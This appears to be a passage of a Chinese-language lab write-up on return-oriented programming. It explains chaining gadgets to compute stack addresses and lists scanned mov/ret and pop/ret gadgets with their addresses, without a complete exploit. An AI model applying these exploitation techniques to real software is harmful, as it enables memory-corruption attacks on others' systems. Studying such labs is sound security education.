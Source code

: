 ### Level 2

用ROP来实现前面第二关的效果。直接用一个pop rdi的gadget就可以了。

略。

### Level 3

现在就是真正的拼gadget了。

这里有一个问题：因为还是必须在栈里面存字符串，那怎么获取地址？栈地址已经会变化了。

在看别人博客的时候，看见一个非常非常重要的gadget：

```
0x00000000004019d6 : lea rax, [rdi + rsi] ; ret
```

只要其中一个是栈上的地址，我们控制另一个，就可以获得栈上任意处的地址。

开始扫gadget：

```
--only "mov|ret"
0x0000000000401b23 : mov byte ptr [rax + 0x605500], 0 ; ret
0x0000000000400f63 : mov byte ptr [rip + 0x20454e], 1 ; ret
0x000000000040214e : mov dword ptr [rdi + 8], eax ; ret
0x0000000000401b10 : mov dword ptr [rip + 0x2045ee], eax ; ret
0x0000000000402dd7 : mov eax, 0 ; ret
0x0000000000401994 : mov eax, 1 ; ret
0x0000000000401a07 : mov eax, esp ; ret
0x0000000000401a9a : mov eax, esp ; ret 0x8dc3
0x00000000004019a3 : mov edi, eax ; ret
0x000000000040214d : mov qword ptr [rdi + 8], rax ; ret
0x0000000000401a06 : mov rax, rsp ; ret
0x00000000004019a2 : mov rdi, rax ; ret
0x0000000000400c55 : ret
```

```
--only "pop|ret"
0x00000000004021d5 : pop rbx ; pop rbp ; pop r12 ; pop r13 ; ret
0x00000000004018f5 : pop rbx ; pop rbp ; pop r12 ; ret
0x00000000004011aa : pop rbx ; pop rbp ; ret
0x0000000000401dab : pop rbx ; ret
0x000000000040141b : pop rdi ; ret
0x0000000000402b17 : pop rsi ; pop r15 ; ret
0x0000000000401383 : pop rsi ; ret
0x0000000000402b13 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040137f : pop rsp ; pop r13 ; pop r14 ; ret
0x00000000004021d8 : pop rsp ; pop r13 ; ret
0x00000000004018f8 : pop rsp ; ret
0x0000000000400c55 : ret
```
（略去了一部分没用的gadget）
